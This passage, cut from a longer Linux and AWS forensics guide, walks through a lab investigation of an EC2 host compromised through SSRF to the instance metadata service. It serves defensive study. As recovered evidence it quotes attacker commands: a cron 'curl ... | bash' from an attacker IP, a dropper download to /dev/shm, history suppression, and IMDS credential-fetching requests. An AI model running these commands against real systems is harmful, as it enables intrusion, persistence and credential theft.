aws ec2 modify-snapshot-attribute --snapshot-id snap-0aaa --attribute createVolumePermission \
  --operation-type add --user-ids 222233334444
# then, in the forensics account:
aws ec2 copy-snapshot --source-region us-east-1 --source-snapshot-id snap-0aaa \
  --encrypted --kms-key-id alias/forensics --description "CASE-2027-0211 copy"

# 5-6. Volume in the isolated forensics VPC, attached to the analysis host
aws ec2 create-volume --snapshot-id snap-0bbb --availability-zone us-east-1a --volume-type gp3
aws ec2 attach-volume --volume-id vol-0ccc --instance-id i-0forensic --device /dev/sdf
```

```bash
# 7. Mount read-only on the forensic host — the flags are not optional
lsblk -f
mount -o ro,noexec,nodev,noload,norecovery /dev/nvme1n1p1 /mnt/evidence
```

| Mount flag | Why |
|---|---|
| `ro` | read-only — prevents any write to evidence |
| `noexec` | nothing on the evidence volume can be executed (you are mounting attacker binaries) |
| `nodev` | ignore device files on the volume |
| `noload` | **ext3/4: do not replay the journal** — journal replay writes to the filesystem even with `ro` |
| `norecovery` | XFS equivalent of `noload` |

`noload`/`norecovery` is the flag people miss, and missing it is a genuine evidence-integrity failure: mounting a dirty ext4 filesystem read-only will still replay the journal and modify the volume unless you suppress it. Prefer a **read-only loop device or write blocker** where possible, and always hash before and after:

```bash
sha256sum /dev/nvme1n1 | tee /evidence/CASE-2027-0211-volume.sha256
```

**Note the cloud caveat on hashing:** an EBS snapshot is a point-in-time copy of blocks, not a bit-for-bit stream you controlled, and re-creating a volume from a snapshot does not guarantee an identical device-level hash (sizes and unallocated regions can differ). Hash the *files* and the mounted image artefacts, document the snapshot ID and its creation timestamp as your chain-of-custody anchor, and record the API calls (from CloudTrail) that show exactly who created and copied the snapshot. That API record is often stronger provenance than a disk hash.

### 12.4 IMDS — the credential faucet

Instance metadata is the pivot point in most cloud host compromises, so know both versions cold.

```bash
# IMDSv1 — a plain GET. Any SSRF reaches it.
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/web-instance-role

# IMDSv2 — session-oriented: PUT for a token, then the token on every request
TOKEN=$(curl -sX PUT "http://169.254.169.254/latest/api/token" \
        -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
     http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

IMDSv2 defeats most SSRF because it requires a `PUT` with a custom header (which simple SSRF primitives cannot produce) and sets a hop limit of 1 by default, so the response will not traverse a proxy or leave a container with its own network namespace.

Check enforcement, and audit it fleet-wide:

```bash
aws ec2 describe-instances \
  --query 'Reservations[].Instances[].{Id:InstanceId,HttpTokens:MetadataOptions.HttpTokens,Hop:MetadataOptions.HttpPutResponseHopLimit}' \
  --output table
# HttpTokens=optional means IMDSv1 is still accepted -> SSRF-exploitable

aws ec2 modify-instance-metadata-options --instance-id i-0abc123 \
  --http-tokens required --http-put-response-hop-limit 1 --http-endpoint enabled
```

**Bug bounty angle.** SSRF to `169.254.169.254` on an IMDSv1 instance remains one of the highest-paying web findings on AWS-hosted programs, precisely because it converts a read-only web bug into cloud credentials. The responsible-disclosure demonstration is `sts:GetCallerIdentity` — it proves credential access and nothing more. Do **not** enumerate S3 or touch data; that crosses from proof-of-concept into unauthorised access and out of scope on essentially every program. Related high-value variants: SSRF to `metadata.google.internal` with the `Metadata-Flavor: Google` header, and Azure IMDS with `Metadata: true`.

**Detecting it after the fact.** From the host side, the web server's access log shows the SSRF request. From the cloud side, the tell is the credential's use profile: `userIdentity.arn` is the instance role, but `sourceIPAddress` is not the instance's private IP or an AWS service. GuardDuty raises exactly this as `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS`, and it should be a page-immediately finding in any environment.

---

## Part 13: Hands-On Lab — Compromised EC2 Instance, End to End

A single worked investigation using everything above. The scenario: GuardDuty fires `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS` on role `web-instance-role`, associated with `i-0abc123def456789` (`web01`, Ubuntu 22.04, public load balancer in front of a PHP app).

### Step 1 — Establish scope from the control plane first

```bash
aws sts get-caller-identity
aws guardduty get-findings --detector-id 1a2b3c --finding-ids 4d5e6f --output json \
  | jq '.Findings[0] | {Type:.Type, Sev:.Severity, First:.Service.EventFirstSeen,
        Last:.Service.EventLastSeen, IP:.Service.Action.AwsApiCallAction.RemoteIpDetails.IpAddressV4,
        Api:.Service.Action.AwsApiCallAction.Api}'
```

```json
{
  "Type": "UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS",
  "Sev": 8,
  "First": "2027-02-11T09:22:14Z",
  "Last": "2027-02-11T11:47:03Z",
  "IP": "198.51.100.7",
  "Api": "ListBuckets"
}
```

Attacker IP `198.51.100.7`, window 09:22–11:47 UTC. Widen it deliberately — GuardDuty reports first *detected*, not first *occurred*. Investigate from 08:00.

```sql
SELECT eventtime, eventname, sourceipaddress, errorcode,
       json_extract_scalar(requestparameters,'$.bucketName') AS bucket
FROM cloudtrail_logs
WHERE useridentity.arn LIKE '%web-instance-role%'
  AND eventtime BETWEEN '2027-02-11T08:00:00Z' AND '2027-02-11T13:00:00Z'
ORDER BY eventtime;
```

```
2027-02-11T09:22:14Z  GetCallerIdentity   198.51.100.7   -              -
2027-02-11T09:22:31Z  ListBuckets         198.51.100.7   -              -
2027-02-11T09:23:08Z  GetBucketLocation   198.51.100.7   -              acme-prod-backups
2027-02-11T09:24:55Z  ListObjectsV2       198.51.100.7   -              acme-prod-backups
2027-02-11T09:31:02Z  CreateUser          198.51.100.7   AccessDenied   -
2027-02-11T09:31:04Z  CreateAccessKey     198.51.100.7   AccessDenied   -
2027-02-11T09:31:09Z  AttachUserPolicy    198.51.100.7   AccessDenied   -
2027-02-11T10:02:40Z  GetObject           198.51.100.7   -              acme-prod-backups
...
2027-02-11T11:47:03Z  ListBuckets         198.51.100.7   -              -
```

Read this carefully. `GetCallerIdentity` first is the signature of a freshly stolen credential being tested. The three consecutive `AccessDenied` IAM calls are a failed persistence attempt — the role lacked IAM permissions. The `GetObject` calls are the actual impact and must be enumerated exhaustively (this requires S3 data events; if they are off, pivot to S3 server access logs or load-balancer and VPC flow byte counts to bound the exposure).

Confirm the credentials are the instance's and were used off-instance:

```bash
aws ec2 describe-instances --instance-ids i-0abc123def456789 \
  --query 'Reservations[].Instances[].{Priv:PrivateIpAddress,Pub:PublicIpAddress,Prof:IamInstanceProfile.Arn,IMDS:MetadataOptions.HttpTokens}'
```

```
Priv=10.0.2.31  Pub=203.0.113.10  Prof=.../web-instance-role  IMDS=optional
```

`HttpTokens=optional` — IMDSv1 is enabled. That is the likely exfiltration path, and now the host investigation has a specific hypothesis to test.

### Step 2 — Contain without destroying evidence

```bash
aws ec2 modify-instance-attribute --instance-id i-0abc123def456789 --groups sg-0forensiciso
aws iam put-role-policy --role-name web-instance-role --policy-name IRRevoke \
  --policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Deny","Action":"*","Resource":"*",
    "Condition":{"DateLessThan":{"aws:TokenIssueTime":"2027-02-11T12:10:00Z"}}}]}'
```

Do **not** stop or terminate the instance: stopping destroys RAM, and RAM holds the in-memory bash history, the injected process, and the network state. Isolation via security group achieves containment while preserving all volatile evidence.

### Step 3 — Volatile collection

```bash
aws ssm start-session --target i-0abc123def456789
```

```bash
sudo su -
date -u; uname -a; uptime            # anchor the clock FIRST, in UTC
```

```
Thu Feb 11 12:14:07 UTC 2027
Linux web01 5.15.0-119-generic #129-Ubuntu SMP x86_64 GNU/Linux
 12:14:07 up 41 days,  3:22,  1 user,  load average: 2.71, 2.44, 1.98
```

Load average 2.7 on an idle app server is itself a finding. Memory first:

```bash
curl -sLo /tmp/avml https://github.com/microsoft/avml/releases/latest/download/avml
chmod +x /tmp/avml && /tmp/avml --compress /tmp/web01-mem.lime.gz
sha256sum /tmp/web01-mem.lime.gz
aws s3 cp /tmp/web01-mem.lime.gz s3://ir-evidence/CASE-2027-0211/ --sse aws:kms
```

Then the live sweep:

```bash
for p in /proc/[0-9]*; do t=$(readlink "$p/exe" 2>/dev/null); case "$t" in *"(deleted)"*) echo "$p -> $t";; esac; done
```

```
/proc/3311 -> /dev/shm/.kw (deleted)
```

There it is. Preserve it before anything else:

```bash
cp /proc/3311/exe /tmp/recovered_3311.bin
sha256sum /tmp/recovered_3311.bin
tr '\0' ' ' < /proc/3311/cmdline; echo
tr '\0' '\n' < /proc/3311/environ
grep -E 'PPid|Uid|Gid' /proc/3311/status
ls -l /proc/3311/cwd
ss -tunapo | grep 3311
```

```
sha256: 8b1f...d24c
cmdline: [kworker/u8:2]
environ: PATH=/usr/local/sbin:...  C2=198.51.100.7:8443  HOME=/root
PPid:	1
Uid:	0	0	0	0
cwd -> /dev/shm
ESTAB 0 0 10.0.2.31:44120 198.51.100.7:8443 users:(("[kworker/u8:2]",pid=3311,fd=3)) timer:(keepalive,...)
```

A deleted binary from `/dev/shm`, masquerading as a kernel worker thread (real kernel threads have PPid 2 and never hold sockets), reparented to PID 1 because its launching shell exited, holding a keepalive TCP session to the same IP as the CloudTrail source. Host and cloud evidence now agree.

### Step 4 — Persistence and account review

```bash
ls -la /etc/cron.d/
cat /etc/cron.d/apache-maint
systemctl list-unit-files --state=enabled | grep -v '@'
awk -F: '($3==0){print $1}' /etc/passwd
diff <(sort /etc/passwd) <(sort /etc/passwd-)
ssh-keygen -lf /root/.ssh/authorized_keys
cat /etc/ld.so.preload 2>/dev/null
```

```
-rw-r--r-- 1 root root  128 Feb 11 09:34 /etc/cron.d/apache-maint
*/7 * * * * root /bin/bash -c 'command -v curl >/dev/null && curl -fsSL http://198.51.100.7/r.sh|bash' >/dev/null 2>&1

root
www-data:x:33:33:...  (unchanged)

3072 SHA256:1YyDq9K3n8p2WvR5tE7uXcZ0bA4mQ6sJhL9fN1gO2c8s attacker@kali (RSA)
```

The `authorized_keys` fingerprint is the pivot: search every host's `auth.log` for `SHA256:1YyD...` to find every other machine that key touched. Note the crontab's mtime (09:34) sits inside the CloudTrail window — the timeline is self-consistent.

### Step 5 — Root cause: how did they get in?

```bash
grep -E 'Accepted|Failed password' /var/log/auth.log | tail -20
awk '$4 ~ /^09:(1|2)/' /var/log/nginx/access.log | grep -Ei '169\.254\.169\.254|metadata'
```

```
198.51.100.7 - - [11/Feb/2027:09:21:58 +0000] "GET /fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ HTTP/1.1" 200 22 "-" "python-requests/2.31.0"
198.51.100.7 - - [11/Feb/2027:09:22:03 +0000] "GET /fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-instance-role HTTP/1.1" 200 1187 "-" "python-requests/2.31.0"
198.51.100.7 - - [11/Feb/2027:09:29:41 +0000] "GET /fetch.php?url=http://169.254.169.254/latest/user-data HTTP/1.1" 200 842 "-" "python-requests/2.31.0"
```

Root cause established: an SSRF in `/fetch.php` against an IMDSv1-enabled instance. The 1187-byte response at 09:22:03 is the credential document; `GetCallerIdentity` from the same IP eleven seconds later confirms it was used immediately. The `user-data` fetch at 09:29 is worth flagging separately — user-data frequently contains bootstrap secrets, so treat anything in it as compromised.

Note there is **no auth.log entry** for the attacker. They never had SSH; the shell arrived through the web application. Had you started at `auth.log`, you would have found nothing and possibly concluded the host was clean.

### Step 6 — Timeline

| Time (UTC) | Event | Evidence source |
|---|---|---|
| 09:21:58 | SSRF probes IMDS role list | nginx access log |
| 09:22:03 | Role credentials retrieved (1187 B) | nginx access log |
| 09:22:14 | `GetCallerIdentity` from 198.51.100.7 | CloudTrail |
| 09:22:31 | `ListBuckets` | CloudTrail |
| 09:24:55 | `ListObjectsV2` on `acme-prod-backups` | CloudTrail |
| 09:29:41 | `user-data` retrieved via SSRF | nginx access log |
| 09:31:02–09 | IAM persistence attempts — all `AccessDenied` | CloudTrail |
| 09:33:12 | `/dev/shm/.kw` created and executed | `crtime` (debugfs) + `/proc/3311` |
| 09:34:07 | `/etc/cron.d/apache-maint` written | file mtime + `crtime` |
| 10:02:40+ | S3 object reads (exfiltration) | CloudTrail data events |
| 11:47:03 | Last observed API call | CloudTrail |
| 12:10:00 | Contained: SG isolation + session revocation | our action, logged |

### Step 7 — Disk acquisition and offline confirmation

```bash
aws ec2 create-snapshot --volume-id vol-0def456 --description "CASE-2027-0211 web01 root" \
  --tag-specifications 'ResourceType=snapshot,Tags=[{Key=Case,Value=CASE-2027-0211}]'
# ... copy to forensics account, create volume, attach as /dev/sdf ...
mount -o ro,noexec,nodev,noload /dev/nvme1n1p1 /mnt/evidence

ls -di /mnt/evidence/etc/cron.d/apache-maint
debugfs -R 'stat <131203>' /dev/nvme1n1p1
find /mnt/evidence -xdev -newermt '2027-02-11 09:00' ! -newermt '2027-02-11 12:30' -type f 2>/dev/null | head -40
```

```
crtime: 0x65c7b4e7:... -- Thu Feb 11 09:34:07 2027
mtime:  0x65c7b4e7:... -- Thu Feb 11 09:34:07 2027
```

`crtime == mtime` and both inside the window — created during the incident, not stomped. And from memory, the history the attacker thought they had suppressed:

```bash
python3 vol.py -f web01-mem.lime linux.bash.Bash
```

```
PID   Process   Command Time                Command
3041  bash      2027-02-11 09:32:44 UTC     unset HISTFILE
3041  bash      2027-02-11 09:32:51 UTC     curl -fsSL http://198.51.100.7/k -o /dev/shm/.kw
3041  bash      2027-02-11 09:33:06 UTC     chmod +x /dev/shm/.kw
3041  bash      2027-02-11 09:33:12 UTC     /dev/shm/.kw & disown
3041  bash      2027-02-11 09:33:20 UTC     rm -f /dev/shm/.kw
3041  bash      2027-02-11 09:34:07 UTC     echo '*/7 * * * * root ...' > /etc/cron.d/apache-maint
```

`unset HISTFILE` was the first command — and it is in the recovered history, because in-memory history is unaffected by it. `/dev/shm/.kw` was unlinked at 09:33:20 while still running, which is exactly why `/proc/3311/exe` showed `(deleted)` and why the live capture in Step 3 was essential.

---

## Part 14: Detection & Defence Angle

Consolidating everything above into what actually stops or catches this, ordered by return on effort.

### 14.1 Make the logs leave the box

Nothing else matters if root can edit your evidence.

```bash
# rsyslog: forward everything to a remote collector
echo '*.* @@logs.internal:6514' >> /etc/rsyslog.d/60-remote.conf
systemctl restart rsyslog

# journald: persistent storage + forward to syslog
mkdir -p /var/log/journal && systemd-tmpfiles --create --prefix /var/log/journal
sed -i 's/^#\?Storage=.*/Storage=persistent/;s/^#\?ForwardToSyslog=.*/ForwardToSyslog=yes/' \
  /etc/systemd/journald.conf
systemctl restart systemd-journald

# journald Forward Secure Sealing: tamper-evident local journals
journalctl --setup-keys --interval=1h    # then verify with: journalctl --verify
```

Forward Secure Sealing is worth knowing: it periodically seals the journal with an evolving key, so an attacker who alters past entries cannot re-seal them and `journalctl --verify` reports the tampering. It detects rather than prevents, which is exactly what forensics needs.

### 14.2 Deploy execution telemetry before you need it

The auditd rules from Part 7, or Sysmon for Linux / Falco / an EDR. Test that it survives the obvious: an attacker running `auditctl -D` should generate a `CONFIG_CHANGE` alert, and `-e 2` should make it fail outright.

### 14.3 High-value Linux detections

| Detection | Signal | Why it works |
|---|---|---|
| Execution from `/tmp`, `/dev/shm`, `/var/tmp` | auditd `execve` with `exe=` under those paths | almost no legitimate software does this |
| `memfd_create` execution | `/proc/*/exe -> /memfd:*` | fileless execution; no legitimate service does this |
| New UID 0 account | auditd watch on `/etc/passwd` + `useradd` in auth.log | unambiguous |
| `authorized_keys` modification | auditd watch on `/root/.ssh/`, `/home/*/.ssh/` | primary SSH persistence |
| `/etc/ld.so.preload` created | auditd `-w /etc/ld.so.preload -p wa` | userland rootkit; file should not exist |
| Kernel module load | auditd `init_module`/`finit_module` | LKM rootkit |
| Outbound to non-approved IPs from a server | VPC flow logs / Zeek | C2 beaconing |
| Package DB mismatch | scheduled `rpm -Va` / `debsums -c` compared to baseline | trojanised binaries |
| Shell spawned by the web server user | auditd `execve` with `uid=www-data`, `comm=bash` | webshell / RCE — very high fidelity |
| History disabled | `unset HISTFILE`, `HISTSIZE=0` in execve args | anti-forensics |

The `www-data` shell rule deserves special mention: a web server process should never spawn an interactive shell. It is one of the highest-precision Linux detections available and would have caught the lab incident within seconds of 09:33.

### 14.4 Cloud detections

| Detection | Implementation |
|---|---|
| Instance-role credential used outside AWS | GuardDuty `InstanceCredentialExfiltration.OutsideAWS`, or a CloudTrail rule on `AssumedRole` + non-VPC source IP |
| `StopLogging` / `DeleteTrail` / `PutEventSelectors` | EventBridge rule → page immediately |
| Root account usage | CloudTrail `userIdentity.type=Root` → page |
| `AccessDenied` burst | more than ~50 denials from one principal in 5 minutes |
| `CreateAccessKey` / `CreateUser` / `AttachUserPolicy` outside CI | compare principal against a CI allowlist |
| Console login without MFA | `mfaAuthenticated="false"` on `ConsoleLogin` |
| Snapshot shared externally | `ModifySnapshotAttribute` with an external account ID — classic exfil |
| S3 bucket policy / public-access change | `PutBucketPolicy`, `DeletePublicAccessBlock` |
| IMDSv1 still enabled | Config rule or scheduled `describe-instances` audit on `HttpTokens` |
| New region activity | any API call in a region the org does not use — common for cryptomining |

**Snapshot sharing is an under-appreciated exfiltration path:** `ModifySnapshotAttribute` adding an unknown account ID copies an entire disk out of your environment without a single byte crossing your network monitoring.

### 14.5 Preventive controls that would have stopped the lab incident

1. **Enforce IMDSv2** (`--http-tokens required`, hop limit 1) account-wide, and set it as the launch-template default. This alone breaks the entire chain.
2. **Least-privilege instance roles.** The role could `ListBuckets` on everything; it should have been scoped to one prefix in one bucket. Impact would have gone from "all backups" to "nothing".
3. **Egress filtering.** The instance reached `198.51.100.7:8443` outbound. Production app servers rarely need arbitrary internet egress; a NAT or proxy allowlist kills both the C2 channel and the `curl | bash` cron.
4. **`/dev/shm` and `/tmp` mounted `noexec,nosuid,nodev`.** The dropper would have failed at execution.
5. **Organisation trail to a separate logging account** with S3 Object Lock, so control-plane evidence is out of the compromised account's reach.
6. **Fix the SSRF** — allowlist outbound URLs in `fetch.php`, block link-local destinations, and never accept a user-supplied scheme or host.

---

## Part 15: Final Revision

The compressed version of this chapter.

**The mental model.** Windows disks remember by default; Linux remembers only what it was told to remember; the cloud remembers everything about the API and nothing about the host. Match your investigation to whichever of those three holds the authoritative record — and in a cloud incident, start at the control plane, not the disk.

**Linux, in order of value:**

1. **Live `/proc` first** if the host is up — `/proc/<pid>/exe` recovers deleted running binaries, and powering off destroys that forever.
2. **Memory before disk.** `linux.bash.Bash` in Volatility 3 defeats `unset HISTFILE` outright; get the kernel banner (`banners.Banners`) so you can build the right ISF.
3. **ctime and crtime beat mtime.** `touch` cannot set ctime; `debugfs -R 'stat <inode>'` gives crtime on ext4, `xfs_db` on XFS. mtime in the past with ctime/crtime inside your window = timestomp.
4. **`auth.log`/`secure` + `wtmp`/`btmp`** for sessions; check `wtmp` size modulo 384 and timestamp monotonicity for tampering.
5. **journald `-o verbose`** carries `_EXE` and `_CMDLINE` — often your only execution evidence without auditd.
6. **Walk the persistence list**: cron (all its locations), systemd system *and user* units, `ld.so.preload`, `authorized_keys`, sudoers drop-ins, PAM, `update-motd.d`, UID 0 accounts. Diff `/etc/passwd` against `/etc/passwd-`.
7. **`rpm -Va` / `debsums -c` and `rpm -qa --last`** for trojanised and newly installed binaries.
8. **auditd** is the only native execution log — `execve` rules with `-k exec`, read via `ausearch -i`, and `auid` attributes root actions to the original human login.
9. **UAC** to automate the whole collection reproducibly, with `--s3-presigned-url` on ephemeral cloud hosts.

**Containers:** the writable layer at `/var/lib/docker/overlay2/<id>/diff/` holds everything the attacker wrote, visible from the host. `docker diff` triages in one command. `hostconfig.json` tells you whether escape was possible (`Privileged`, `docker.sock`, `/:/host`, `CAP_SYS_ADMIN`, host PID). In Kubernetes, the API server audit log is the record — watch `pods/exec`, secret reads, privileged pod creation, and `system:anonymous`.

**Cloud:** CloudTrail / Activity Log / Cloud Audit Logs is the authoritative evidence. `userIdentity.arn` + `sourceIPAddress` + `errorCode` answer most questions. Instance-role credentials used from a non-AWS IP = stolen via IMDS. S3 data events and GCP Data Access logs are **off by default**, which is why "what did they read?" is so often unanswerable. Contain by isolating the security group and revoking sessions with a `TokenIssueTime` deny — never by terminating. Snapshot, copy to a forensics account, mount `ro,noexec,nodev,noload`.

**The one-sentence version:** on Linux, prove things with kernel-controlled metadata (ctime, crtime, auditd, `/proc`) rather than anything a root user could have typed; in the cloud, prove things with the provider's API log rather than anything on the instance.

---

## Part 16: Cheat Sheet

**Session and auth:**

```bash
last -f /var/log/wtmp -F; lastb -f /var/log/btmp -F; utmpdump /var/log/wtmp
stat -c '%s' /var/log/wtmp | awk '{print $1%384}'          # must be 0
grep -E 'Accepted|Failed password|useradd|sudo:.*COMMAND' /var/log/auth.log*
journalctl -D /mnt/ev/var/log/journal/ -o verbose --since "..." --until "..."
journalctl -D /mnt/ev/var/log/journal/ --verify
```

**Timestamps:**

```bash
stat file                                        # Access/Modify/Change/Birth
debugfs -R 'stat <INODE>' /dev/sda1              # ext4 crtime
debugfs -R 'ncheck INODE' disk.img               # inode -> name
xfs_db -r -c 'inode INODE' -c print /dev/sdb1    # XFS
fls -r -m / -o 2048 img.dd > body; mactime -b body -d -z UTC 2027-02-11
find / -xdev -newermt '09:00' ! -newermt '12:00' -type f 2>/dev/null
```

**Live triage:**

```bash
for p in /proc/[0-9]*; do t=$(readlink $p/exe); case "$t" in *deleted*) echo "$p $t";; esac; done
cp /proc/PID/exe /evidence/recovered.bin         # recover deleted running binary
tr '\0' ' ' < /proc/PID/cmdline; tr '\0' '\n' < /proc/PID/environ
ss -tunapo; lsof -nPi; cat /proc/net/tcp
grep -l LD_PRELOAD /proc/[0-9]*/environ; cat /etc/ld.so.preload
ls /proc | grep -E '^[0-9]+$' | sort -n > a; ps -eo pid --no-headers|tr -d ' '|sort -n > b; diff a b
```

**Persistence sweep:**

```bash
for u in $(cut -d: -f1 /etc/passwd); do crontab -l -u $u 2>/dev/null|sed "s|^|[$u] |"; done
ls -la /etc/cron.d/ /etc/cron.*/ /var/spool/cron*/ /var/spool/at/
systemctl list-unit-files --state=enabled; systemctl list-timers --all
ls -la /home/*/.config/systemd/user/ /var/lib/systemd/linger/
awk -F: '($3==0){print $1}' /etc/passwd; diff <(sort /etc/passwd) <(sort /etc/passwd-)
ssh-keygen -lf /root/.ssh/authorized_keys; cat /etc/sudoers.d/*
ls -la /etc/update-motd.d/ /etc/profile.d/; cat /etc/ld.so.preload
rpm -Va | grep -v '^\.\{9\}' ; debsums -c ; rpm -qa --last | head
```

**auditd:**

```bash
auditctl -s; auditctl -l
ausearch -k exec -i --start recent
ausearch -ua 1001 -i; ausearch -m USER_LOGIN -sv no -i
ausearch -if /evidence/audit.log -k persistence -i
aureport -x --summary
```

**Memory:**

```bash
./avml --compress /evidence/mem.lime.gz
insmod lime-$(uname -r).ko "path=tcp:4444 format=lime"
vol.py -f mem.lime banners.Banners                 # FIRST
vol.py -f mem.lime linux.bash.Bash                 # history from RAM
vol.py -f mem.lime linux.pslist.PsList             # then linux.psscan.PsScan; diff = hidden procs
vol.py -f mem.lime linux.check_syscall.Check_syscall
vol.py -f mem.lime linux.malfind.Malfind
```

**Containers:**

```bash
docker ps -a; docker diff CID; docker logs --timestamps CID
docker inspect -f '{{.GraphDriver.Data.UpperDir}}' CID
jq '{Privileged,Binds,CapAdd,NetworkMode}' /var/lib/docker/containers/CID/hostconfig.json
jq -r '[.time,.log]|@tsv' /var/lib/docker/containers/CID/CID-json.log
find /var/lib/docker/overlay2/*/diff -newermt '09:00' -type f
```

**Kubernetes:**

```bash
jq -c 'select(.objectRef.subresource=="exec")' /var/log/kubernetes/audit.log
jq -c 'select(.objectRef.resource=="secrets" and .verb=="get")' audit.log
kubectl logs POD --previous; kubectl get events -A --sort-by=.lastTimestamp
kubectl get pods -A -o json | jq -r '.items[]|select(.spec.hostPID==true)|.metadata.name'
```

**AWS:**

```bash
aws sts get-caller-identity; aws cloudtrail describe-trails
aws cloudtrail lookup-events --lookup-attributes AttributeKey=Username,AttributeValue=X --start-time ...
aws ec2 describe-instances --query 'Reservations[].Instances[].{Id:InstanceId,T:MetadataOptions.HttpTokens}'
aws ec2 modify-instance-attribute --instance-id i-X --groups sg-isolate
aws ec2 create-snapshot --volume-id vol-X --description CASE
mount -o ro,noexec,nodev,noload /dev/nvme1n1p1 /mnt/evidence
```

**CloudTrail red flags:** `StopLogging`, `DeleteTrail`, `CreateUser`, `CreateAccessKey`, `AttachUserPolicy`, `CreateLoginProfile`, `ModifySnapshotAttribute`, `PutBucketPolicy`, `DeletePublicAccessBlock`, `Root` identity, `mfaAuthenticated=false`, `AccessDenied` bursts, activity in unused regions.

---

## Part 17: Common Pitfalls

- **Powering off a live Linux host before `/proc` collection.** Deleted-but-running binaries and in-memory bash history die with the machine. Memory and `/proc` first, always.
- **Trusting `.bash_history`.** `unset HISTFILE`, `HISTCONTROL=ignorespace`, and `kill -9` all defeat it. Absence of history is not absence of activity; recover it from RAM instead.
- **Reading atime as "the attacker read this."** `relatime` is the default and `noatime` is common. Check `/proc/mounts` before making that claim.
- **Ignoring ctime and crtime.** They are the timestomp detector. mtime alone will actively mislead you.
- **Mounting evidence without `noload`/`norecovery`.** A dirty ext4 filesystem replays its journal and writes to your evidence even when mounted `ro`.
- **Forgetting rotated and compressed logs.** `auth.log.1`, `auth.log.*.gz`, `audit.log.1..5`. Half of incident windows live in the rotated files.
- **Syslog timestamps have no year or time zone.** Cross-boundary rotations will silently misdate your timeline by a year.
- **Only checking `/etc/systemd/system`.** User units in `~/.config/systemd/user/` with lingering enabled persist without root and are routinely missed.
- **Running `docker exec` on a live suspect container.** It writes to the container layer and adds processes. Collect from the host's `overlay2` diff directory instead.
- **Assuming CloudTrail records data access.** S3 object-level events and GCP Data Access logs are off by default. "No evidence of reads" often just means no logging.
- **Terminating a compromised instance to "contain" it.** That destroys memory and, on instance-store volumes, the disk. Isolate with a security group instead.
- **Isolating the instance but not revoking the credentials.** Temporary credentials already exfiltrated keep working from anywhere until they expire; you need the `aws:TokenIssueTime` deny policy.
- **Investigating only the host in a cloud incident.** The stolen role's blast radius spans the whole account; the host tells you nothing about which buckets were read.
- **Analysing a memory image with the wrong ISF.** Volatility 3 will produce plausible-looking garbage. Run `banners.Banners` first and match the kernel exactly.
- **Trusting `rpm -Va` on a fully compromised host.** The RPM database is a local file. Compare against packages fetched from the distro on a clean workstation.
- **Working in local time.** Cloud logs are UTC, host logs may not be. Normalise everything to UTC and convert once, in the report.

---

## Part 18: Practice Labs & Resources

**Linux host forensics:**

- **CyberDefenders** — Linux-image challenges that grade you on `auth.log`, cron persistence, and deleted-file recovery, plus live-analysis labs.
- **TryHackMe** — *Linux Forensics*, *Volatility*, and the Linux server log-analysis rooms.
- **HackTheBox Sherlocks** — several Linux scenarios requiring `auditd`, journald, and process-tree reconstruction.
- **DFIR Madness / AboutDFIR** — free full disk images with published walkthroughs.
- **Build your own (best value):** on a disposable VM, run through the attack in Part 13 against yourself — drop a binary into `/dev/shm`, run it, `rm` it, add a cron entry, timestomp it, `unset HISTFILE` — then reconstruct your own actions from `/proc`, memory, `debugfs` crtime, and auditd. Doing this once teaches more than any writeup.

**Memory:**

- **Volatility Foundation sample images** and the Linux samples in the Volatility 3 test corpus — practise building an ISF with `dwarf2json` end to end.
- **LiME plus a VM you control:** acquire your own RAM, then find your own `bash` history with `linux.bash.Bash`.

**Containers and Kubernetes:**

- **Falco event-generator** (`falcosecurity/event-generator`) — safely triggers realistic container attack behaviours so you can practise reading the telemetry.
- **Kubernetes Goat** — a guided set of cluster attack scenarios including container escape, service-account token abuse, and Docker socket exposure. **Bust-a-Kube** is a similar intentionally vulnerable cluster.
- Reproduce Part 10 locally: run a container, exec in, write files, then find every one of those files from the host's `overlay2` diff directory without ever entering the container again.

**Cloud:**

- **flAWS** and **flAWS2** (`flaws.cloud`, `flaws2.cloud`) — the canonical free AWS misconfiguration challenges; flAWS2 has both an attacker and a **defender** track that walks you through CloudTrail analysis of the attack you just performed. Do the defender track.
- **CloudGoat** (Rhino Security Labs) — deployable vulnerable AWS scenarios, several of which are exactly the IMDS/instance-role chain in Part 13; deploy, exploit, then investigate your own CloudTrail.
- **AWSGoat**, **TerraGoat**, and **CloudFoxable** for broader cloud attack-path practice.
- **Stratus Red Team** (DataDog) — emits granular, realistic cloud attack techniques (credential exfiltration, `StopLogging`, snapshot sharing) so you can validate your detections against real CloudTrail output. This is the best single tool for practising Part 14.
- **Azure:** the Microsoft Sentinel training lab and KQL exercises for Entra sign-in log analysis.

**Practice questions to test yourself on any Linux or cloud image:**

1. Given a host where `.bash_history` is empty and `auth.log` shows no logins, prove that a command was executed and state which two independent artifacts support your conclusion.
2. Find a timestomped file and identify the exact timestamp fields that establish the forgery, plus the true creation time and how you obtained it.
3. Recover a binary that was executed and then deleted, and provide its SHA-256 — explaining why this is only possible under one specific condition.
4. From a CloudTrail export alone, determine whether a set of credentials belonged to an instance role and whether they were used from outside the account's infrastructure. State the exact fields you used.
5. For a compromised container, list every file the attacker created inside it **without executing anything in the container**, and determine whether an escape to the host was possible from the container's configuration.
6. Given a `wtmp` file, determine whether login records were surgically removed, and describe the two independent structural checks that support your answer.
